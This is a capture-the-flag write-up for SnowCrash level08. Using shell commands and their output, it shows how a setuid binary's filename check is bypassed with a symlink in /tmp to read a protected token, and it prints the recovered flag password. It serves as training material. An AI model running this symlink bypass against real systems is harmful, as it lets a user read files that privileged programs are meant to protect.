 level08@SnowCrash:~$ ls -laH
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token

strings level08
[...]
[^_]
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
;*2$"
[...]

so level08 takes a file to open as argument

nano /tmp/test.txt
	Hello World !

./level08 /tmp/test.txt
Hello World !

level08 prints the content of a file so we need to somehow make it work with the "token" file
(You may not access 'token' for now)

- Verified with :
level08@SnowCrash:~$ ltrace ./level08
[...]
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)                      = 25
[...]

level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/syml.txt
level08@SnowCrash:~$ ./level08 /tmp/syml.txt
quif5eloekouj29ke0vouxean

level08 checks you have permission to open the file, by creating a symbolic link it passes
the verification while still reading ~/token

su flag08 with "quif5eloekouj29ke0vouxean" as password and "getflag"
